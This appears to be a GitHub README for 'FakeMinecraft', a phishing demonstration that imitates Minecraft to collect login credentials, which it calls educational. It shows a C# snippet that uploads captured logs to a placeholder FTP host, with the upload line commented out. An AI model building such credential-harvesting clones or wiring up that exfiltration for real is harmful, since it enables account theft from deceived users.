 # FakeMinecraft

FakeMinecraft is an educational project created to illustrate how easily a phishing attack can be carried out in the current digital landscape.

Counterfeiting a website/application and its most basic functions is both simple and swift. This project is developed exclusively for educational and demonstrative purposes.

The credentials provided within it, as well as the FTP server address, are _**entirely fictional**_.

![](img/screen1.png 'Screen of program')

![](img/screen2.png 'Screen of program')

The part of the code responsible for sending data to the FTP server, the data is fictitious.

```C#
var userFtpLogin = "admin";
var userFtpPassword = "admin";
WebClient client = new WebClient();
client.Credentials = new NetworkCredential(userFtpLogin, userFtpPassword);

var fileOnSite = "ftp://example/FakeMinecraft/logs.txt";
//client.UploadFile(fileOnSite, WebRequestMethods.Ftp.UploadFile, "logs.txt");
Thread.Sleep(3000);
```
